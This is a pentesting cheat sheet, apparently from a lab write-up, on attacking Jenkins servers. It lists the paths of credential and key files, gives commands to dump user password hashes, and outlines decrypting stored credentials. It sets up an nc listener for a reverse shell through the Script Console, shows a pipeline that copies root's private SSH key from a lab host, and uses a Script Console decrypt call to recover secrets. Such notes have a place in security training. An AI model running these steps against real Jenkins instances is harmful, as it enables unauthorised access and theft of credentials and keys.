








Jenkins is an automation server widely used for CI/CD pipelines. Its file structure and security model revolve around the `JENKINS_HOME` directory where configurations, jobs, credentials, and user data are stored. Understanding this layout is key to effective pentesting.

---

## Key Concepts and Structure

- **JENKINS_HOME**: Root directory for Jenkins data (commonly `/var/jenkins_home` or `/var/lib/jenkins`).
- User data, secrets, credentials, and configs are stored here.
- Jenkins stores passwords hashed or encrypted with a master key.
- Some Jenkins versions (e.g., 2.441) have known vulnerabilities like LFI.

---

## Important Jenkins Files & Directories for Pentesting

| File/Folder                                      | Description                                |
| ------------------------------------------------ | ------------------------------------------ |
| `/var/jenkins_home/config.xml`                   | Main Jenkins config file                   |
| `/var/jenkins_home/credentials.xml`              | Stored encrypted credentials               |
| `/var/jenkins_home/secrets/master.key`           | Master key to decrypt credentials          |
| `/var/jenkins_home/secrets/hudson.util.Secret`   | Secret key used in credential encryption   |
| `/var/jenkins_home/users/config.xml`             | List of registered users                   |
| `/var/jenkins_home/users/<user>/config.xml`      | User-specific settings and password hashes |
| `/var/jenkins_home/secrets/initialAdminPassword` | Initial admin password during setup        |


---

## Enumerating Users and Credentials

- If you have access to local files, you can enumerate users in the following route:
```bash
cat /var/jenkins_home/users/config.xml

or

cat /var/jenkins_home/users/config.xml
```
- For each user, check their config for password hashes:
```bash
cat /var/jenkins_home/users/<user_id>/config.xml | grep passwordHash
```
- Passwords are often stored as bcrypt hashes (e.g., starting with `$2a$`).


--- 

## Decrypting Jenkins Credentials

- Another option is trying to access the credentials stored in `credentials.xml`, that are encrypted using AES with keys derived from `master.key` and `hudson.util.Secret`.

- To decrypt:
    1. Extract and read `master.key`
    2. Extract and read `hudson.util.Secret`
    3. Execute the [decrypt script.](https://github.com/bstapes/jenkins-decrypt)


--- 

## Reverse Shell from Jenkins
To obtain a reverse shell with the **Jenkins Console**, you need the **username** and **password** of a valid user. 
Once logged in using the previously discovered credentials, you can access the **Manage Jenkins** functionality, which includes the **Script Console**.



In Jenkins, Groovy is used as the main scripting language for defining jobs and pipelines. Therefore, we are going to use the Groovy [RevShells](https://www.revshells.com/) script to obtain the reverse shell. 

To do this, you must first start a listener on the port where you want to receive the connection.

```bash
nc -lvnp 4444
```

After that, you can run the reverse shell in the script console.



Then, you will receive the reverse shell.



---

## Privilege Escalation

#### Method 1
Before using this method, you need to check that the _SSH Agent_ plugin is installed. You can verify this in: **Dashboard > Manage Jenkins > Plugins**.

If the plugin is active, you can create a new Pipeline.

This means that we can configure a pipeline capable of running commands over SSH in a controlled environment. First, we create a job.



Specifying the Pipeline item.


Then, in the _Pipeline Script_ section, we include the appropriate steps to execute SSH commands using the credentials managed by Jenkins.


```bash
pipeline {
    agent any

    stages {
        stage('SSH') {
            steps {
                script {
                    sshagent(credentials: ['1']) {
                        sh 'ssh -o StrictHostKeyChecking=no root@10.129.230.220"cat /root/.ssh/id_rsa"'
                }
            }
        }
    }
}
```

After that, we click **Save**, and finally **Build Now**. 


By reviewing the Console Output, we can confirm whether the SSH connection and command execution worked correctly.



#### Method 2
For this method, we need to review the existing credentials and ensure that an SSH credential object has already been created.


Then, using the Developer Tools in our browser and inspecting the **Concealed for Confidentiality** field, we can observe how Jenkins stores and displays sensitive values in a protected format.


After copying this value, we can navigate to the Jenkins Script Console at `http://10.129.230.220:8080/script` and use the following script to obtain the id_rsa.

```bash
println( hudson.util.Secret.decrypt("
{AQAAABAAAAowLrfCrZx9ba<SNIP>ssFMcYCdYHaB1OTIcTxtaaMR8IMMaKSM=}") )
```

